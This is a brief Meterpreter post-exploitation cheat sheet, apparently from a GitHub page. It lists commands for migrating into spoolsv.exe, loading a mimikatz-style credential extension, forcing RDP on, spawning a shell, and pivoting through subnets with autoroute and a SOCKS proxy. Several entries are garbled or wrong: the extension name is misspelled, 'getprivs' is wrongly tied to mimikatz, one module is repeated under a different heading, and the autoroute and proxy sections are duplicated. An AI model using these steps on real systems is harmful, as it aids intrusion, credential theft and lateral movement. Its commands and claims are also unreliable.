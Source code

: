# Command to list sessions

```bash
sessions
sessions -i 'SESSION_NUMBER'  # target specific session
```

## Spool service

```bash
ps | grep spool
spoolsv.exe
```

## Migrate process

```bash
migrate 'PID'
```

## Check user who's the system is running

```bash
getuid
```

## Get info of the system

```bash
sysinfo
```

## Load wiki

```bash
load wiki  # previously known as mimikatz
```

## Get all privileges

```bash
getprivs # previously known as mimikatz
```

## Transfer file to the target

```bash
upload
```

## Run a Metasploit module

```bash
run
```

## Verify network interface

```bash
Linux: ifconfig
Windows: ipconfig
```

## Check if it's a VM

```bash
run post/windows/gather/checkvm
```

## Check for various exploits which we can run within our session

```bash
run post/windows/gather/checkvm
```

## Forcing RDP to be available

```bash
run post/windows/manage/enable_rdp
```

## Spawn a shell

```bash
shell
```

## Autoroute

```bash
run autoroute [-r] -s subnet -n netmask
run autoroute -s 172.18.1.0 -n 255.255.255.0
```

## Autoroute

```bash
auxiliary/server/socks4a
```

## Proxychain

```bash
auxiliary/server/socks4a
```
